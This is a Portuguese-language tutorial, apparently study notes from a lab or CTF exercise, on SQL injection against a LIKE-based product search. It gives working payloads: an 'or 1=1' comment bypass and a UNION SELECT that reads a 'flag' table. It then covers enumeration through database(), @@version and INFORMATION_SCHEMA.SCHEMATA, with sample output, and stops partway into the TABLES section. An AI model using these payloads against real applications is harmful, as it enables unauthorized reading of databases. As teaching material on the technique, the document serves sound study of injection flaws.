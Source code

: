 Caso não haja o tratamento adequado do input podemos fechar essa condição e inserir uma nova e alterar as queries : 

**Input normal**
<input style="width:100%;padding:5px;font-size:18pt;" value="notebook">
```sql
SELECT name,description FROM products WHERE name LIKE '%notebook%';
```

**SQL INJECTION**
<input style="width:100%;padding:5px;font-size:18pt;" value="não existe' or 1=1 -- -">
```sql
SELECT name,description FROM products WHERE name LIKE '%não existe' or 1=1 -- -%';
```
Com essa ``query`` retornamos todos os itens do banco de dados;

**SQL INJECTION**
<input style="width:100%;padding:5px;font-size:18pt;" value="' or 1=1 union SELECT name,2 FROM flag; -- - ">
```sql
SELECT name,description FROM products WHERE name LIKE '' or 1=1 union SELECT name,2 FROM flag; -- - ';
```
Aqui conseguimos retornar o campo nome da tabela flag;
***
# Enumerando o banco de dados
Podemos obter algumas informações do próprio banco de dados com algumas funções;
- **`database()`** - Retorna o banco a base de dados que está em uso.
- **`username()`** - Retorna o usuário da conexão do banco de dados.
- **`@@version`** - Retorna a versão do banco de dados;

## INFORMATION_SCHEMA Database
Para pegar dados usando o `UNION SELECT` precisamos de algumas informações como :
- Lista dos bancos de dados.
- Listas das tabelas de cada banco.
- Lista das colunas de cada tabela.

O banco de dados `INFORMATION_SCHEMA` contém informações sobre os banco de dados e as tabelas no nosso servidor. E é essencial na exploração.
#### SCHEMATA
A  tabela `SCHEMATA` no banco de dados `INFORMATION_SCHEMA` contém informações sobre todos os bancos no servidor.

A Coluna `SCHEMA_NAME` contém o nome de todas as base de dados presente.
```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
```
#### TABLES
Para listarmos todas as tabelas na base de dados podemos usar a tabela `TABLES` na base de dados `INFORMATION_SCHEMA`. Essa tabela  contém múltiplas colunas, mas estamos interessados na `TABLE_SCHEMA` e `TABLE_NAME`.

